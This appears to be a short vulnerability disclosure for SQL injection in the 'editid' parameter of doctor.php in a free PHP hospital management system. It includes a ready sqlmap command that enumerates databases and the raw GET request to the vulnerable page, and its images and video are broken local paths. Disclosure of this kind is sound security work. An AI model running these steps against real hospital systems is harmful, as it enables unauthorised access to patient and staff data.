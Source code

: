 **[Hospital-Management-System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![image-20220508152043091](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220508152043091.png)

### Description:
---
The vulnerability page is ```doctor.php```

```http://your-ip/HMS/doctor.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```doctor.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -u "http://your-ip/hms/doctor.php?editid=1" --random-agent  --dbs



[+]GET request package

```
GET /hms/doctor.php?editid=1 HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cpbuir6uql3t0128e61bn2ihm1
Upgrade-Insecure-Requests: 1

```
### In action:
---

![image-20220508152225728](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220508152225728.png)

### Proof and Exploit:
---
<video src="G:\z郑州work\资料\培训\河南交通职业技术学院\录屏\example.mp4"></video>
